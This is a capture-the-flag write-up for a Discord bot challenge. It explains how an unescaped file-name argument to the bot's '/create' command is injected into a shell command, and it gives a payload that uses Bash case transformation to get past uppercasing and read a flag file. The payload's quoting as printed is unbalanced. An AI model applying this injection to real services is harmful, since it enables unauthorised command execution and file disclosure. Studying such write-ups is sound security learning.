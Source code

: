 # slash-flag

## The bot

the bot was included in the discord and can be publically chatted, opening DM in browser shows the channel number and user ID, use the link

`https://discord.com/oauth2/authorize?client_id=XYZ&permissions=0&scope=bot%20applications.commands`

and replace `XYZ` with the user ID to invite the bot to own hosted server.

bot's aboutme includes the source code to the bot: `https://github.com/Solopie/storage-bot`

## The Source Code

The bot registers commands `"/create", "/open", "/clear", "/list"` which pipes stdout of system commands to chat, all optional inputs

to `"/create <file_name> <text>"` and `"/open <file_name>"` is escaped with `shell-quote 1.7.3", which doesn't have any vuln at the moment,

except the `<file_name>` option in `"/create"`

## Create

All commands piped into `Create` is capitalized, so we cannot just cat the flag. enter variables and Case Transformation since Bash 5.

`var="hello world"` assigns "hello world" to var, and `${var,,}` will transform all characters in var from upper to lower and append. Hence,

`VAR="CAT /FLAG/FLAG.TXT";${VAR,,}` will be translated to `"cat /flag/flag.txt"`. 

Note the system command piped in is `await runCommand(`echo '${text}' > ${filename}`, interaction.guildId);`

we have to first escape the echo command and do our own magic, so we want to send `ASD;VAR="CAT /FLAG/FLAG.TXT;${VAR,,} > HELLO` will pipe flag into HELLO

send `"/create ASD;VAR="CAT /FLAG/FLAG.TXT;${VAR,,} > HELLO text"` to bot and "/open HELLO" gives the flag

`DUCTF{/flag_didn't_work_for_me...}`

![alt text](img.png)




